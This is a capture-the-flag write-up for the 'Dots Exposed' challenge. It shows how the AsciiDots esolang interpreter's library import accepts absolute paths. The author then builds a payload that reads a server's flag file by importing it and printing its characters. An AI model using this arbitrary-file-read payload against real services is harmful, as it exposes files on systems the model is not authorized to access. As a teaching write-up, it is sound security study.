



# Dots Exposed

**Category**: misc \
**Solves**: 33 \
**Points**: 243 \
**Author**: geolado

Server: https://dots.exposed

## Overview

No code provided at all, just this site:



After some googling I found this: https://github.com/aaronjanse/asciidots

Turns out it's some weird esolang that's based on ASCII art. Let's try running this:
```dots
.-$"Hello, World!"
```



So we can assume that the server is running an AsciiDots interpreter, and the
goal is probably to read some flag file on the server.

## Solution

After reading through the language spec (it's actually a pretty cool esolang),
there doesn't seem to be any obvious way to perform IO (besides to `stdout` and
`stdin`). But it might be possible to abuse library imports:

> Using Libraries
>
> A library can be imported by starting a line with `%!`, followed with the file
> name, followed with a single space and then the character that the library
> defines.

Let's look at the source code:

```python
def _get_path_of_lib_file(self, filename):
    dir_paths_to_try = [
        self.program_dir,
        os.path.join(os.path.dirname(os.path.realpath(__file__)), 'libs'),
        os.path.join(os.path.dirname(os.path.dirname(os.path.realpath(__file__))), 'libs'),
    ]

    for dir_path in dir_paths_to_try:
        path = os.path.join(dir_path, filename)  # Vulnerable to directory traversal
        if os.path.isfile(path):
            return path

    raise RuntimeError('Native library "{}" cannot be found'.format(filename))
```

The interpreter checks for files in a pre-defined set of library directories,
but we can easily load any file by using an absolute path.

However, library files need to conform to the AsciiDots syntax. Or do they? I
tried importing a file that contained nothing but `CTF-BR{test_flag}` to see
what would happen:

```dots
%!/flag a
```

There are no errors, but nothing really happens either. But if I try invoking
the library with `.-a`, it throws an exception:

```
RuntimeError: Warp "a" has no destination
```

Let's look at the source code again:

```python
def _import_lib_file_with_warp_id(self, char_obj_array, filename, warp_id, is_singleton):
    path = self._get_path_of_lib_file(filename)

    with open(path, 'r') as lib_file:
        lib_code = lib_file.read()

    lib_char_obj_array = self.map_from_raw(lib_code)

    # ...

    char_obj_array.extend(lib_char_obj_array)  # This is important
```

The function will try to parse it, but it won't really do anything except the
last line:

```python
char_obj_array.extend(lib_char_obj_array)
```

This `char_obj_array` is set to `self.world.map`, which is just a 2D list
containing a "map" of the world. For example, given this program:

```
/-&
|
\-\ /-\
  | | |
/-/ | \-\
\---/   |
        |
        \-.

/->--
| |
\-/
```

The map will be this (ugly but you get the idea):

```python
[
  ['/', '-', '&']
  ['|']
  ['\\', '-', '\\', ' ', '/', '-', '\\']
  [' ', ' ', '|', ' ', '|', ' ', '|']
  ['/', '-', '/', ' ', '|', ' ', '\\', '-', '\\']
  ['\\', '-', '-', '-', '/', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '\\', '-', '.']
  []
  ['/', '-', '>', '-', '-']
  ['|', ' ', '|']
  ['\\', '-', '/']
]
```

So when we import a library, it will literally just append the file contents to
the end of the map.

Example program:

```dots
%!flag a

.-a
```

Map:
```python
[
  ['%', '!', 'f', 'l', 'a', 'g', ' ', 'a']
  []
  ['.', '-', 'a']
  ['C', 'T', 'F', '-', 'B', 'R', '{', 'f', 'a', 'k', 'e', '_', 'f', 'l', 'a', 'g', '}']
]
```

We need `a` to be in the map (aside from the line where it's imported) in order
for the library to actually be loaded. To prevent the `Warp "a" has no
destination` error, we can just ... never invoke it by never letting a dot
touch it:

```dots
%!flag a

a
```

So now that we have the flag in the map, how do we exfiltrate it? The answer is pretty simple actually:

```dots
%!flag a

a

.................
|||||||||||||||||
$$$$$$$$$$$$$$$$$
'''''''''''''''''
CTF-BR{fake_flag}  `` This will be appended when the library loads
```

Using single quotes ensures that the character is printed immediately, so even
if the quote is unclosed, the character will still be printed.

Final payload (and make sure there's no newline at the end of the file):

```dots
%!/flag a

a

..................................................
||||||||||||||||||||||||||||||||||||||||||||||||||
$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
''''''''''''''''''''''''''''''''''''''''''''''''''
```



Such a cool challenge 😍
